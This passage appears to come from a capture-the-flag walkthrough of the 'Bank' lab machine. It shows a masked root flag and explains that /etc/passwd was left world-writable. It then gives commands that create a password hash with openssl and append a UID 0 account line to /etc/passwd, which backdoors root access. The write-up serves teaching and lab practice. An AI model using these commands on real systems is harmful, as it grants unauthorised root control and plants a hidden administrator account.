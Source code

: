     
    
    # cat /root/root.txt
    d5be56ad************************
    

### passwd - Path #2

#### Enumeration

Two of the files used to manage user account on a Linux box are `/etc/passwd`
and `/etc/shadow`. `passwd` is readable by any user, but shadow typically
holds the password hashes, and is only readable by root and members of the
shadow group. In early versions of Linux, the password hashes were just stored
in `passwd`, but that was determined to be a security risk once people started
cracking hashes.

On a normal Linux install, the permissions for these files would look like:

    
    
    root@kali# ls -l /etc/passwd /etc/shadow
    -rw-r--r-- 1 root root   3297 Jun 22 16:19 /etc/passwd
    -rw-r----- 1 root shadow 1839 Jun 22 16:19 /etc/shadow
    

However, on Bank, someone made `passwd` writable by anyone:

    
    
    www-data@bank:/$ ls -l /etc/passwd /etc/shadow
    -rw-rw-rw- 1 root root   1252 May 28  2017 /etc/passwd
    -rw-r----- 1 root shadow  895 Jun 14  2017 /etc/shadow
    

This is a big problem.

#### Exploit passwd

Because `passwd` once held the hashes, it still can. Typically there’s an `x`
where the hash would be, indicating that the hash is actually in `shadow`. But
if I put a hash there, it will work.

I’ll add a user with userid and groupid 0, which makes that user root with a
different password.

First I’ll generate a password hash for the password “0xdf” using `openssl`:

    
    
    www-data@bank:/$ openssl passwd -1 0xdf
    $1$q6iY9K5M$eYK1fPmp6OfjbHhWGqZIf0
    

I’ll add a line to `/etc/passwd` using `echo`:

    
    
    www-data@bank:/$ echo 'oxdf:$1$q6iY9K5M$eYK1fPmp6OfjbHhWGqZIf0:0:0:pwned:/root:/bin/bash' >> /etc/passwd
    